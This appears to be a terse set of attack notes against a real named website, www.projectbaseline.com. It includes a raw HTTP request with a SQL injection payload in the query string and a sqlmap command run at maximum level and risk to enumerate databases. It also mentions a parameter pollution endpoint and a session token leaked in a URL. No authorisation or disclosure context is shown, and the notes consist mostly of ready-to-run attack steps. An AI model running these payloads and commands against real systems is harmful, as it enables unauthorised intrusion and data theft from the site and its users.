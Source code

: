 ___

# signalpath

Find urls

# projectbaseline

## SQL Injection 

```
GET /shape-healthtech/?189304164'%20or%204312%3d4317--%20=1 HTTP/2
Host: www.projectbaseline.com
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

```bash
sqlmap -r request.txt --dbs --level 5 --risk 3 
```

## Client-side HTTP parameter pollution

```
POST /studies/rheumatoid-arthritis-galvani/contact/
```
https://www.imperva.com/learn/application-security/http-parameter-pollution/


https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution

### Session token in url 

```
GET /content/verily/us/en/studies/rheumatoid-arthritis-galvani/contact/jcr:content.recaptcha.json?token=03AFcWeA7zmp4
...
```

